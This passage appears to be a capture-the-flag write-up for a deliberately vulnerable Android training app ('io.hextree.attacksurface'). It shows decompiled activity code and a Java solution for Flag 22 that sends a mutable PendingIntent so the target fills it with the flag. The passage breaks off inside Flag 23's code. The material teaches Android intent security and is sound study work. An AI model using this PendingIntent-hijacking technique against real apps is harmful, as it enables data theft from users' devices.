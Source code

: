 ### Flag 22
#### Code analysis
```java
    public void onCreate(Bundle bundle) {
        PendingIntent pendingIntent = (PendingIntent) getIntent().getParcelableExtra("PENDING");
        if (pendingIntent != null) {
            try {
                Intent intent = new Intent();
                intent.getExtras();
                intent.putExtra("success", true);
                this.f.addTag(intent);
                intent.putExtra("flag", this.f.appendLog(this.flag));
                pendingIntent.send(this, 0, intent);
                success(null, this);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

```

The activity checks for  a Pending intent named `"PENDING"` and if a result is found it adds to the intent `"success"` `true` & `"flag"` then send's it back 

#### Solution

We need to send a Mutable intent so that the app can add content to it

```java
	Context context = this;
	Intent receivedIntent = getIntent();
	
	if (receivedIntent.getParcelableExtra("PENDING") != null) {  
	    String flag = receivedIntent.getStringExtra("flag");  
	    Log.d("Flag22", flag);  
	}else{  
	    Log.d("Flag22", "???");
	    Intent atackIntent = new Intent();  
		atackIntent.setClassName(getPackageName(),getPackageName()+ ".pendingIntent");  
		  
		PendingIntent pendingIntent = PendingIntent.getActivity(context, 0, atackIntent, PendingIntent.FLAG_MUTABLE);  
		  
		Intent senderIntent = new Intent();  
		senderIntent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag22Activity");  
		senderIntent.putExtra("PENDING", pendingIntent);  
		startActivity(senderIntent);
}
```

### Flag 23
#### Code analysis
```java
    public void onCreate(Bundle bundle) {
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action == null) {
            Intent intent2 = new Intent("io.hextree.attacksurface.GIVE_FLAG");
            intent2.setClassName(getPackageName(), Flag23Activity.class.getCanonicalName());
            PendingIntent activity = PendingIntent.getActivity(getApplicationContext(), 0, intent2, 33554432);
            Intent intent3 = new Intent("io.hextree.attacksurface.MUTATE_ME");
```